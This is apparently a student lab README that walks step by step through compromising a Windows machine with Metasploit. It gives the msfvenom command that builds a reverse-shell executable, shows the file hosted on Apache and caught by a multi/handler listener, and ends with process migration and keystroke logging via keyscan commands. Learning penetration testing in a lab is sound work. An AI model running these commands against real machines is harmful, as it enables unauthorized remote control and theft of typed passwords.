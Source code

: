# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![eth6 1](https://github.com/Rajeshanbu/Compromising-windows-using-Metasploit/assets/118924713/8ecf977c-b0c6-49ae-a262-7bc24363d6e7)


copy the fun.exe into the apache /var/www/html folder

![eth6 2](https://github.com/Rajeshanbu/Compromising-windows-using-Metasploit/assets/118924713/4795897a-a372-4048-b666-45247e682cc2)


Start apache server sudo systemctl apache2 start and Check the status of apache2

![eth6 3](https://github.com/Rajeshanbu/Compromising-windows-using-Metasploit/assets/118924713/8dbe85ae-e915-48c2-84ae-f8bf71bbd905)


## Invoke msfconsole:
## OUTPUT:

![ETH6 4](https://github.com/Rajeshanbu/Compromising-windows-using-Metasploit/assets/118924713/1474ebbc-8301-44ff-80cf-66ad2edf821b)


ype help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![eth6 5](https://github.com/Rajeshanbu/Compromising-windows-using-Metasploit/assets/118924713/6f628cc6-e641-432d-ac65-5542c491531b)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![eth6 6](https://github.com/Rajeshanbu/Compromising-windows-using-Metasploit/assets/118924713/c2145502-30e5-4871-99b4-5ba11e17dcbd)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit 

![eth6 7](https://github.com/Rajeshanbu/Compromising-windows-using-Metasploit/assets/118924713/31ffd713-1367-4817-b3ce-22922aebe550)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![eth6 8](https://github.com/Rajeshanbu/Compromising-windows-using-Metasploit/assets/118924713/13546c9d-1842-4afa-a408-7fbe1c41c03e)



keyscan_dump Shows the keystrokes captured so far

![275778840-2bb2a213-9dd6-4b39-b475-ba50b17a0e4e](https://github.com/Rajeshanbu/Compromising-windows-using-Metasploit/assets/118924713/38dd2fcf-baff-411c-b9fd-16d037d13e74)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

